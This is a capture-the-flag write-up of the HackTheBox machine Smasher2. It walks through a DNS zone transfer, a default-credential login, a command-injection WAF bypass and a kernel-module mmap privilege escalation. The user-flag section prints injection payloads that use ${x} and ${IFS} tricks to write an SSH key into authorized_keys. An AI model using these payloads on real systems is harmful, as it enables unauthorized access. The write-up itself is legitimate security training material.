 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-06-10-smasher-2-hackthebox
title: Smasher 2 @ HackTheBox
---
```


Smasher2 is a difficult 50 points machine on hackthebox, involving some guessing to get the user flag (because the author left in an unintended solution), and a custom kernel exploit to get root.

## User Flag

The initial scan shows the following ports:

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 23:a3:55:a8:c6:cc:74:cc:4d:c7:2c:f8:fc:20:4e:5a (RSA)
|   256 16:21:ba:ce:8c:85:62:04:2e:8c:79:fa:0e:ea:9d:33 (ECDSA)
|_  256 00:97:93:b8:59:b5:0f:79:52:e1:8a:f1:4f:ba:ac:b4 (ED25519)
53/tcp open  domain  ISC BIND 9.11.3-1ubuntu1.3 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.3-Ubuntu
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tcp port 53 is open – this is unusual and often an indicator that a zone transfer is needed in CTFs. We do the transfer and get the following results:

```
dig axfr @10.10.10.135 smasher2.htb

; <<>> DiG 9.11.5-P4-5.1-Debian <<>> axfr @10.10.10.135 smasher2.htb
; (1 server found)
;; global options: +cmd
smasher2.htb.        604800  IN  SOA smasher2.htb. root.smasher2.htb. 41 604800 86400 2419200 604800
smasher2.htb.        604800  IN  NS  smasher2.htb.
smasher2.htb.        604800  IN  A   127.0.0.1
smasher2.htb.        604800  IN  AAAA    ::1
smasher2.htb.        604800  IN  PTR wonderfulsessionmanager.smasher2.htb.
smasher2.htb.        604800  IN  SOA smasher2.htb. root.smasher2.htb. 41 604800 86400 2419200 604800
;; Query time: 37 msec
;; SERVER: 10.10.10.135#53(10.10.10.135)
;; WHEN: Sat Jun 29 16:48:25 CEST 2019
;; XFR size: 6 records (messages 1, bytes 242)
```

We found a vhost "wonderfulsessionmanager.smasher2.htb" and use it in firefox to have a look at the webpage. There is a login field where we try some credentials, eventually succeeding with ‘Administrator:Administrator’. This is the unintended part, as the password was supposed to be something more difficult and the only way in through exploitation of the web application.

![](htb_smasher2_login_success.png)

We can now send a POST-Request to "http://wonderfulsessionmanager.smasher2.htb/api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job" to interact with the API. We don’t really know which parameters it takes though. When sending something we fortunately get an error which reveals the needed parameter:

```
POST /api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job HTTP/1.1
Host: wonderfulsessionmanager.smasher2.htb
Content-type: application/json
Cookie: session=eyJpZCI6eyIgYiI6Ill6UTBNRGc0WVRZNU56UmhPVFkxTXpCak4yWmtZamhrTTJFM01UQTNNbVV6WW1ZNE56VmhNQT09In19.XReHPg.2KfK-afS4nWhnGwN-CFcsod_k5U
Content-Length: 17

{"cmd": "i${x}d"}

HTTP/1.1 200 OK
Date: Sat, 29 Jun 2019 15:44:56 GMT
Server: Werkzeug/0.14.1 Python/2.7.15rc1
Content-Type: application/json
Content-Length: 57
Vary: Cookie
{"result":"Missing schedule parameter.","success":false}
```

Note that we can not just write "id" because the WAF will catch it – when using "i${x}d" we insert a substitution that will be replaced with an empty string, bypassing the WAF. When using the schedule parameter we add our public key to authorized keys, resulting in a ssh connection:

```
{"schedule":"echo${IFS}<key in b64>${IFS}>t"}

{"schedule":"m${x}kd${x}ir$IFS.$x.$x/.${x}s${x}s${x}h"}

{"schedule":"base64$IFS-${x}d<t>.$x.$x/.${x}s${x}s${x}h/authorized_keys"}

ssh -i xct.key dzonerzy@smasher2.htb
```

## Root Flag

We notice that the user is in the group "adm":

```
dzonerzy@smasher2:~$ id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

This is often a hint to look for log files as members of the adm can usually read them. In "auth.log" we find the following:

```
May  9 11:19:53 smasher2 sudo:     root : TTY=unknown ; PWD=/ ; USER=dzonerzy ; COMMAND=/bin/bash -c cd /home/dzonerzy/smanager && ./runner.py 2>&1 > /dev/null &
May  9 11:19:53 smasher2 sudo:     root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/sbin/insmod /lib/modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
```

Root inserted a kernel module which is suspicious. Running strings on the LKM shows the following:

```
This is the right way, please exploit this shit!
```

We copy over the binary with scp to our box and start to analyze it with ghidra.The LKM implements a character device, which we can open, read, close and use mmap on. We create a Ubuntu VM, insert the module and play around a bit. After a while we notice that the mmap implementation is broken, which leads to arbitrary mapping of memory as root. To exploit the issue we use a common exploit method, searching for the credential structure of our process and overwriting the ids with zeros to elevate the process. The complete exploit can be found [here](https://gist.github.com/xct/89a4b37c2a0bd4bd2425c9f6749f170f).
